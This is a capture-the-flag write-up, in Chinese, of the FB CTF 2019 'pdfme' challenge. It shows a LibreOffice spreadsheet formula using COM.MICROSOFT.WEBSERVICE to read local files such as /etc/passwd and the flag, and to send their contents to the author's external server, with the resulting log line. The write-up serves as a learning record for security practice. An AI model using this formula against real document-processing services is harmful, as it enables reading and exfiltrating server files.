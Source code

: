 # pdfme

Solved: 63

<br>

這題其實跟DCTF Final某題非常像

只是當初沒解出來，所以這題還是花了很多時間解XD

找個fods file，然後可以在裡頭用 libreoffice macro 去任意讀檔

讀出來的內容可以用`WEBSERVICE`往外傳



`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read `/etc/passwd` file

組合起來

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/home/libreoffice_admin/flag&quot;))`

會把帶有 flag 的 Request 送到我們的 server: 

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`



flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

詳細見payload: [flag.fods](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)

<br>

p.s. 這邊有一個小地方要注意

就是flag不在根目錄下XD

我後來讀`/etc/passwd`，發現有`libreoffice_admin`這個 user

才猜測flag在他的家目錄下面
